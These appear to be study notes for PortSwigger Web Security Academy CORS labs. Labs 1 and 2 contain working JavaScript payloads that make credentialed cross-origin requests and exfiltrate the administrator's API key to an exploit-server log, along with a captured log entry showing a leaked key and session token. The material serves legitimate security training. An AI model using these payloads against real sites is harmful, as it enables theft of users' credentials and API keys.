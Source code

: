 ## Lab - 1: CORS vulnerability with basic origin reflection

- This website has an insecure CORS configuration in that it trusts all origins. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

- account credentials contains at `/accountDetails` endpoint and test this endpoint for CORS

```
GET /accountDetails HTTP/1.1
Host: 0a7c000b04e72c9cc058415000db0089.web-security-academy.net
Origin: https://example.com
...
===============
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://example.com
Access-Control-Allow-Credentials: true
...
```

- at the exploit server body,

```html
<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open(
    "get", // https: need to add to get answer
    "https://0a7c000b04e72c9cc058415000db0089.web-security-academy.net/accountDetails",
    true
  );
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location = "/log?key=" + this.responseText;
  }
</script>
```

- then Store, Deliver exploit to victim and see in Access log

```
GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22CBgteSXcN474mPgbt7nJhso6fPfHEAJc%22,%20%20%22sessions%22:%20[%20%20%20%20%22gqzp7W2o4E70TYIzIZMpN8UmGL9Nh3Q9%22%20%20]} HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.61 Safari/537.36"
```

---

## Lab - 2: CORS vulnerability with trusted null origin (A)

- This website has an insecure CORS configuration in that it trusts the "null" origin. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key. You can log in to your own account using the following credentials: wiener:peter

- test with steps same as lab 1
- `Origin: https://abc` doesn't return `Access-Control-Allow-Origin`
- `Origin: null` return
- in exploit server's body

```html
<iframe
  sandbox="allow-scripts allow-top-navigation allow-forms"
  src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get', 'https://0a25008603ef933ec0f03a1200a20064.web-security-academy.net/accountDetails',true);
req.withCredentials = true; 
req.send();
function reqListener() {
location = 'https://exploit-0a7a0075036c934fc0c83a9d010000aa.exploit-server.net/log?key='+this.responseText;
};
</script>"
></iframe>
```

---

## Lab - 3: CORS vulnerability with trusted insecure protocols (P)

- This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol. To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key. You can log in to your own account using the following credentials: wiener:peter
